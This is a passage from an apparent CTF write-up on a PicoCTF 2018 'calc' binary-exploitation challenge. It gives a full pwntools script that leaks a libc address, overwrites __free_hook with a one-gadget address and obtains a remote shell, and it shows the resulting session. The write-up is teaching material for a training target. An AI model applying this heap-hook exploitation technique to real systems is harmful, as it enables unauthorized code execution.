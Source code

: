 Or, the same steps, but using `pwntools`:

```python
#!/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')

#p = process(["ltrace", "-o", "trace", "./calc"])
#p = gdb.debug("./calc", "break main\ncontinue\n\nbreak 284\nbreak 295\ncontinue\n")
#p = process("./calc")
p = remote('2018shell.picoctf.com', 59874)

p.recvuntil(">> ")
p.sendline("0 : i 0 : o 1 : i 9 # # # # # # # # # o o \t")

p.recvuntil("Invalid operation '")
libcaddr = int(p.recvuntil("'")[:-1]) - 0x3c4b78
print("Libc Addr: 0x%016x" % libcaddr)

gadgetaddr = (libcaddr + 0x4526a)
print("gadget addr: 0x%016x" % gadgetaddr)

freehookaddr = libcaddr + 0x3c67a0 #actually 8 bytes before __free_hook
print("free hook: 0x%016x" % freehookaddr)

p.recvuntil(">> ")

p.sendline("4199915 : ! 1 " + str(freehookaddr) + " = = : xxyyzzwwabcdefghijklmnop 2 # # 4199915 : ! 1 " + str(gadgetaddr))

p.interactive()
```

Let's try it out, the challenge is available at `2018shell.picoctf.com`, port 59874.

```
$ python3 pwn_calc2.py
[+] Opening connection to 2018shell.picoctf.com on port 59874: Done
Libc Addr: 0x00007f7809afe000
gadget addr: 0x00007f7809b4326a
free hook: 0x00007f7809ec47a0
[*] Switching to interactive mode
4199915
0
$ ls
calc
calc.c
flag
libc.so.6
xinet_startup.sh
$ cat flag
picoCTF{===REDACTED===}
```
{:contains-term}

**Boom**! If you managed to wrap your head around this one, the remaining challenges are by and large less difficult. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue.
